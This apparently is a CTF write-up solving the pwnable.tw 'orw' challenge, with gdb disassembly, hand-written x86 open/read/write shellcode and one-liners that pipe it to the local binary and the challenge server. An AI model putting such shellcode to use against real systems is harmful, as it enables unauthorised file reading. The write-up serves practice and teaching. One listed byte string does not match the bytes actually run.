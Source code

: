 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 2 - Orw"
date:   2019-08-14 1:00:16 +0530
categories: Pwnable.tw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 2 - Orw](https://pwnable.tw/challenge/#2)  

## Challenge
```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```
## Static Analysis
Lets check the file properties using `file` and `checksec`
```bash
user@ctf:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,  
for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

user@ctf:~/Downloads$ ./checksec.sh --file orw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   orw
```
Let decompile using `gdb`
```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini
```
Lets look at main function
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```

At position `0x08048576` the value `0x804a060` is pushed into the `stack` and then value read from the user is stored at this location and then it is called.

lets set a break point and check 
```bash
gdb-peda$ break *0x0804858a
Breakpoint 1, 0x0804858a in main ()
gdb-peda$ x/2i $eip
=> 0x804858a <main+66>:	call   eax
   0x804858c <main+68>:	mov    eax,0x0
gdb-peda$ print $eax
$1 = 0x804a060
gdb-peda$ x/s $eax
0x804a060 <shellcode>:	"AAAABBBB\n" 
```
So it executes any shellcode we input. So we can simply write any shell code.
Its seems to be too easy and I don't see any limits to the length of shell code either  
My first thought was to pop a shell. But syscalls seems to be limited to `open` `read` and `write`
After trying various unnecessarily complicated shellcodes I got a simple idea  
We can just `open` the flag file then `read` from it and then `write` its contents to standard output  

I used this website for writing the shell code https://defuse.ca/online-x86-assembler.htm

Shell code
```bash
mov eax,5
push 0
push 0x67616c66
push 0x2f2f2f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80;; fd = open("/home/orw/flag", 0_RDONLY, 0)

push eax
pop ebx
mov eax,3
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; read(fd, obj.shellcode-40, 40)

mov eax,4
mov ebx,1
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; write(stdout, obj.shellcode-40, 40)


String Literal:

"\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3  
\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00  
\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00\xCD\x80"  

```
The shellcode is the simplest one I could think of. Its not the most efficient or shortest method but it will work    
The shellcode first `opens` the file `/home/orw/flag`  
Then it `reads` from the file using the file `descriptor` returned form `open` to a `40bytes` buffer above shell code  
Then we `write` the output to standard output

Lets try it on local system first and then on the server
```bash
itpc@iTPC-LT31:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80"' | ./orw
Give my your shellcode:hey there you in flag
Segmentation fault (core dumped)
```
And there we have it. Let's run it on the server
```bash
itpc@iTPC-LT31:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80"' | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{xxxxxxxxxxx}
```
### Solved!

